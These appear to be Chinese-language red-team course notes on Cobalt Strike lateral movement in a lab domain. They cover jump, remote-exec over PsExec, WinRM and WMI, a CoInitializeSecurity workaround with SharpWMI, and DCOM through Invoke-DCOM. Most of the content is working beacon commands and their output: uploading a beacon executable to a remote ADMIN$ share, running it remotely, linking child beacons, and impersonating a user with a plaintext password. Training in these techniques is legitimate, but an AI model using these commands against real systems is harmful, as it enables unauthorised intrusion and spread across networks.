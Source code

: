  # Lateral Movement

在Cobalt Strike里，提供了三种方法进行横向移动

## ```jump```命令

用法：```jump [method] [target] [listener]```

```
beacon> jump

Beacon Remote Exploits
======================

    Exploit                   Arch  Description
    -------                   ----  -----------
    psexec                    x86   Use a service to run a Service EXE artifact
    psexec64                  x64   Use a service to run a Service EXE artifact
    psexec_psh                x86   Use a service to run a PowerShell one-liner
    winrm                     x86   Run a PowerShell script via WinRM
    winrm64                   x64   Run a PowerShell script via WinRM
```

## ```remote-exec```命令

用法：```remote-exec [method] [target] [command]```

```
beacon> remote-exec

Beacon Remote Execute Methods
=============================

    Methods                         Description
    -------                         -----------
    psexec                          Remote execute via Service Control Manager
    winrm                           Remote execute via WinRM (PowerShell)
    wmi                             Remote execute via WMI
```


## ```powershell```和```execute-assembly```等Cobalt Strike内置的命令


通过列举C盘目录验证是否横向成功
```
ls \\srv-1\c$
```


# PowerShell Remoting

查询靶机架构
```
beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

```winrm```32位横向使用


```winrm64```64位横向使用



推荐使用 SMB 协议横向。SMB 协议在 Windows 环境中广泛使用，因此横向的时候可以和smb本身的流量融合在一起。
```
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```


WinRM返回的是一个高完整性的beacon，可以和远程计算机建立交互式的shell


# PsExec

psexec和psexec64是唯一执行```jump```命令后可以自动执行进程迁移的方法（默认为rundll32.exe），这样做是为了自动从磁盘中删除上传的服务二进制文件。

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25
```


# Windows Management Instrumentation (WMI)

WMI 不是jump命令的一部分，但它是remote-exec命令的一部分

```
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
Started process 536 on srv-1
```

上面命令执行完以后，该进程已经在srv-1运行，需要用```link```命令连接

```
beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```

# The Curious Case of CoInitializeSecurity

CoInitializeSecurity的特殊案例

Beacon对WMI的内部实现使用一个[Beacon Object File](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_main.htm)，使用[beacon_inline_execute](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_inline_execute) Aggressor函数执行。当BOF被执行时，[CoInitializeSecurity](https://docs.microsoft.com/en-us/windows/win32/api/combaseapi/nf-combaseapi-coinitializesecurity) COM对象可以被调用，它被用来为当前进程设置安全上下文。根据微软的文档，每个进程只能调用一次。

不幸的后果是，如果你让CoInitializeSecurity在 "用户A "的上下文中被调用，那么未来的BOF可能无法在Beacon进程的生命周期中继承一个不同的安全上下文（"用户B"）。

这方面的一个例子是这样的。

```
beacon> make_token DEV\jking Purpl3Drag0n
[+] Impersonated DEV\bfarmer

beacon> remote-exec wmi srv-2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv-2: 5
```


我们知道```jking```是SRV-2上的本地管理员，但是由于```CoInitializeSecurity```已经被调用（可能是在bfarmer的上下文中），WMI执行失败，显示拒绝访问。

作为一种变通方法，你的WMI执行需要来自不同的进程。这可以通过 ```spawn``` 和 ```spawnas``` 等命令来实现，甚至可以使用```execute-assembly```执行```SharpWMI```工具

```
beacon> remote-exec wmi srv-2 calc
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[-] Could not connect to srv-2: 5

beacon> execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Debug\SharpWMI.exe action=exec computername=srv-2 command="C:\Windows\System32\calc.exe"

[*] Host                           : srv-2
[*] Command                        : C:\Windows\System32\calc.exe
[*] Creation of process returned   : 0
[*] Process ID                     : 1312
```


# DCOM

Beacon 没有通过Distributed Component Object Model (DCOM) 进行交互的内置功能，因此必须使用诸如[Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)之类的外部工具。我们将在后面的模块中看到如何将其集成到jump命令中

```
beacon> powershell-import C:\Tools\Invoke-DCOM.ps1
beacon> powershell Invoke-DCOM -ComputerName srv-1 -Method MMC20.Application -Command C:\Windows\beacon-smb.exe
Completed

beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```